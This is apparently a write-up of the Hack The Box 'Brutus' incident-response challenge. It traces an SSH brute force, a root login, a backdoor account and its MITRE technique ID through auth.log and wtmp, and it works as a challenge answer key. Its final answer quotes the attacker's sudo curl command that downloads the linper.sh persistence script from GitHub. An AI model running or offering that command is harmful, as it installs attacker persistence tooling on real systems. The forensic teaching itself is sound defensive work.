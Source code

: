 # Scenario
You will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

Log files: [Brutus.zip](https://github.com/user-attachments/files/16104805/Brutus.zip) pass: hacktheblue

# Goal
The goal is to analyze the auth.log and the wtmp log files and answer the following questions as part of the incident response:

### Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?
It appears that the IP 65.2.161.68 continuously keeps failing to authenticate. These logs show someone trying to log in as admin, and the system saying that there is no user admin. These failed login run from 06:31:33 to 06:31:42, suggesting a brute force tool or script is running, as a user at the keyboard could not type that fast:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/9de73f1f-2085-4d7c-8c9b-5e7dce21dc89)

### The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?
Successful authentication as the user `root` at 06:32:44:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/d93da765-46b4-40d2-8fb7-57972efc20b1)

### Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?
2024-03-06 06:32:45

### SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?
37

### The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?
cyberjunkie.

### What is the MITRE ATT&CK sub-technique ID used for persistence?
T1136.001

### How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)
279

### The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
